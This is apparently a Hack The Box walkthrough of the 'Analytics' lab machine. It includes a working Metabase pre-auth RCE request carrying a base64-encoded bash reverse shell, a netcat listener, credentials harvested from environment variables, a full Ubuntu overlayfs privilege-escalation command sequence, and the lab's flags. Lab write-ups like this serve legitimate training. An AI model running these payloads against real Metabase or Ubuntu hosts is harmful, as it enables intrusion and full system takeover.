```yaml
---
title: "Analytics from HTB"
categories: [Hack The Box]
tags: [Hack The Box]
---
```

# Analytics from HTB
[page](https://app.hackthebox.com/machines/Analytics)

`nmap`gave this:
```bash
 nmap -sCV 10.10.11.233
 PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Analytical
|_http-server-header: nginx/1.18.0 (Ubuntu)
```
Nothing unusual.
I added site address to `/etc/hosts`:
```
10.10.11.233 analytical.htb
```
I went to the site and i pressed `login`which led me to different subdomain and i added it to `/etc/hosts`to access it:
```
10.10.11.233 data.analytical.htb
```
It led me to `login page`and it was `metabase`. To discover the version of `metabase`i used `curl`and `grep`:
```
curl http://data.analytical.htb/ | grep version
..............
"version":{"date":"2023-06-29","tag":"v0.46.6",
.............
```
Then went to search for `Exploit` and found this site:
https://www.assetnote.io/resources/research/chaining-our-way-to-pre-auth-rce-in-metabase-cve-2023-38646
First we need token, i used `curl and grep` again:
```
curl http://data.analytical.htb/auth/api/setup/validate | grep token
........................
token":"249fa03d-fd94-4d5b-b94f-b4ebf3df681f"
......................
```
I copied the payload on The link above for `reverse shell` and i sent the payload in `Burpsuite`:
```
POST /api/setup/validate HTTP/1.1
Host: data.analytical.htb
Content-Length: 816
Accept: application/json
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Content-Type: application/json
Sec-GPC: 1
Accept-Language: en-US,en;q=0.6
Origin: http://data.analytical.htb
Referer: http://data.analytical.htb/auth/login?redirect=%2F
Accept-Encoding: gzip, deflate, br
Cookie: metabase.DEVICE=c4db9e82-ac15-462e-9258-c2018034f04a
Connection: keep-alive

{
    "token": "249fa03d-fd94-4d5b-b94f-b4ebf3df681f",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE2LjIvMTIzNCAwPiYx}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```
`YmFzaCAtaSA+Ji9kZXYvdGNwLzEwLjEwLjE2LjIvMTIzNCAwPiYx`is `base64`encoded payload:
`bash -i >&/dev/tcp/10.10.16.2/1234 0>&1`. Paste that in the payload, start `NetCat on port 1234`and You will get the connection:
```bash
 rlwrap nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.233] 46884
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
566446a9a35c:/$
```
 I couldn't activate shell here so i went to search for something. I'm not an user. Can't find flag.
 I used `env`command and found this:
 ```bash
   env
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=566446a9a35c
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/metabase.db
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/usr/bin/env
OLDPWD=/
```
I got the credentials:
>Username
>  metalytics

>Password
>   An4lytics_ds20223#

I then went to `ssh`and got the connection.
```bash
ssh metalytics@10.10.11.233
Password: An4lytics_ds20223#
metalytics@analytics:~$ ls
user.txt
metalytics@analytics:~$ cat user.txt
142306c920c6a937dad19b17c8b70c06
```
***
User Flag: 142306c920c6a937dad19b17c8b70c06
***
I can't run anything with `root permission`:
```bash
 sudo -l
 Sorry, user metalytics may not run sudo on localhost.
```
`env`command gave me nothing. Then i went for searching exploits. And with `uname -r`version of kernel was exploitable.
Eventually i got to this site:
https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/   which game me code for privilege escalation:
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*; u/python3 -c 'import os;os.setuid(0);os.system(\"bash")'"
```
Run this command to become `root`but wait you are not `true root` :D.
After you become the `fake root`you need to run this commands one by one:
```bash
rm -r l m u w
mkdir exploit
cd exploit
mkdir l w u m
cp /usr/bin/python3 l/
setcap cap_setuid+eip l/python3
mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m
touch m/*
u/python3
>>> import os
>>> os.setuid(0)
>>> os.system("bash")
root@analytics:~# cat /root/root.txt
ff608ad0bf165bcccd6516b9bf5ef8d1
```
***
Root Flag is: ff608ad0bf165bcccd6516b9bf5ef8d1
***
![](/assets/images/Screenshot from 2024-08-09 15-06-52.png)
